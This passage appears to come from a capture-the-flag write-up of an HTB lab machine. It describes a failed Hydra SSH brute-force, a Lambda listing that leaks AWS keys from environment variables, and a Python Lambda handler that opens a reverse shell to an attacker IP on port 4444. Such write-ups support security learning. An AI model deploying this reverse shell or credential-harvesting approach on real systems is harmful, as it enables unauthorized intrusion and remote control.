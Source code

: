 This is the moment things got a little messed up. With the information we had, we tried to brute-force an SSH login using Hydra and a variety of combinations such as FirstName:password, LastName:password, and FirstName.LastName:password, but it was in vain -_-.

We then opted to list the lambda functions on the aws bucket:

```
┌──(kali㉿kali)-[~]
└─$ aws --endpoint=http://local.clouded.htb/ lambda list-functions --output json
{
    "Functions": [
        {
            "FunctionName": "UploadToS3",
            "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:UploadToS3",
            "Runtime": "python3.8",
            "Role": "arn:aws:iam::000000000000:role/LambdaS3Access",
            "Handler": "handler.lambda_handler",
            "CodeSize": 21510285,
            "Description": "",
            "Timeout": 10,
            "LastModified": "2024-12-17T08:27:57.309+0000",
            "CodeSha256": "CxUb8kp80KqTa/tzdVQeTVFqo0Nhs0W2AwRKeuplCXE=",
            "Version": "$LATEST",
            "VpcConfig": {},
            "Environment": {
                "Variables": {
                    "AWS_ACCESS_KEY_ID": "AKIA5M34BDN8GCJGRFFB",
                    "AWS_SECRET_ACCESS_KEY": "eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY"
                }
            },
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "54415165-b344-4c0d-b815-ee1d532c62d0",
            "State": "Active",
            "LastUpdateStatus": "Successful",
            "PackageType": "Zip"
        }
    ]
}
```
The function which was running on the bucket is called UploadToS3 and it is using python3, we then proceeded to search for a way to execute code by using the function feature.

After some trial and error we managed to upload our function which executes our script “handler.py”

```
└─$ cat handler.py 
import socket,subprocess,os

def handler(event, context):
  s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(("10.10.14.16", 4444))
  os.dup2(s.fileno(), 0)
  os.dup2(s.fileno(), 1)
  os.dup2(s.fileno(), 2)
  p = subprocess.call(["/bin/bash", "-i"])
```
